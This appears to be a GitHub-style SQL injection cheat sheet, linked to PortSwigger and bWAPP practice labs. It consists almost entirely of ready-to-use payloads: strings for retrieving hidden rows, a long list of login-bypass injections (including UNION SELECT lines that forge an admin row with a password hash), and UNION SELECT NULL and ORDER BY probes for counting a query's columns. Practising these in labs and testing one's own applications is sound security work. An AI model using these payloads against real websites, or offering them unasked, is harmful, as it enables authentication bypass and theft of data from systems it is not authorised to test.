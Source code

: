 # Resources
- [Learn about SQL injection](https://portswigger.net/web-security/sql-injection)
- [Pracice SQLi on bWAPP](http://www.itsecgames.com/)

# Payloads

## Retriving hidden data
```sql
' or 1=1-- -
' or 1=1--
' --

```
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypassing
Note: Remember, sometimes you have to repleace 'admin' for another username. Here, 'admin' is just an example.
```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
- [How to bypass login authentication](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Determining the number of columns returned by the query with UNION SELECT NULL-- -
```sql
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
etc...
```
## Determining the number of columns returned by the query with UNION SELECT NULL--
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
etc...
```
## Determining the number of columns returned by the query with ORDER BY--
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
' ORDER BY 5--
' ORDER BY 6--
' ORDER BY 7--
' ORDER BY 8--
' ORDER BY 9--
' ORDER BY 10--
' ORDER BY 11--
' ORDER BY 12--
etc...
```
## Determining the number of columns returned by the query with ORDER BY-- -
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -
' ORDER BY 6-- -
' ORDER BY 7-- -
' ORDER BY 8-- -
' ORDER BY 9-- -
' ORDER BY 10-- -
' ORDER BY 11-- -
' ORDER BY 12-- -
etc...
```
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
